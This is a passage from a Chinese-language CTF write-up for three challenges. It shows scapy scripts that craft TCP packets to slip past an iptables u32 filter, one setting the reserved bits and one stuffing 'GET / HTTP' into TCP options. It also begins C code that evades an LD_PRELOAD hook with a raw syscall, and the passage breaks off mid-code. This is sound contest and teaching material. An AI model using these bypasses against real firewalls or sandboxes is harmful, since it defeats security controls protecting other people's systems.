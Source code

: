 ## Komm, süsser Flagge - 我的 P

规则应当是是拒绝内容以 `P` 开头的 tcp 包。然而，由于和 [这篇文章](http://www.stearns.org/doc/iptables-u32.current.html) 中描述的实现相比，取 TCP 数据指针的时候移位后忘记加 Mask 了，所以如果我们把数据指针后面的两位（刚好是保留位）设为非 0，我们就能绕过这个规则。

我这里使用了 `scapy` 进行发包。我从 `scapy` 的源码里把 `TCP_client` 这个类进行了修改，让它初始化包的时候把保留位全部设置为 1，也就是：

```py
self.l4[TCP].reserved = 0b111
```

然后运行即可获得 flag：

```py
s=Custom_TCP_client.tcplink(Raw, '202.38.93.111',18081,debug=5)

token=b"<token>"
s.send(b'POST / HTTP/1.1\r\nHost:202.38.93.111\r\nContent-Length: <token length>\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\n')
s.send(token)

print(raw(s.recv()))
```

不过我是 Windows 用户，自然没法像官方题解一样直接用 nftables，虽然 wsl 可能能用。

## Komm, süsser Flagge - 我的 GET

鉴于所有包的前五十个字节中都必须含有 `GET / HTTP`，我们只能增大 TCP 包内的数据指针，在数据之前空出一些字节来放这个字符串了。刚好，TCP 的 options 字段就可以放自定义的内容。

和上一小题同样使用 `scapy`，在初始化的时候加入自定义 options：

```py
self.l4 = IP(dst=ip) / TCP(sport=self.sport, dport=self.dport, flags=0,
	seq=random.randrange(0, 2**32),options=[(16,b'GET / HTTP')])
```

然后运行即可获得 flag：

```py
s=Custom_TCP_client.tcplink(Raw, '202.38.93.111',18082,debug=5)

token=b"<token>"
s.send(b'POST / HTTP/1.1\r\nHost:202.38.93.111\r\nContent-Length: <token length>\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\n')
s.send(token)

print(raw(s.recv()))
```

## 为什么要打开 /flag 😡 - LD_PRELOAD, love!

显而易见，只需要我们手动进行系统调用，那么 `LD_PRELOAD` 就管不着我们。代码如下：

```c
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>

int main(){
	char* filename="./flag";
	int flags=O_RDONLY;
	int mode=0;
	int fd;
	int sys_open=2;
	__asm__(
		"syscall"
```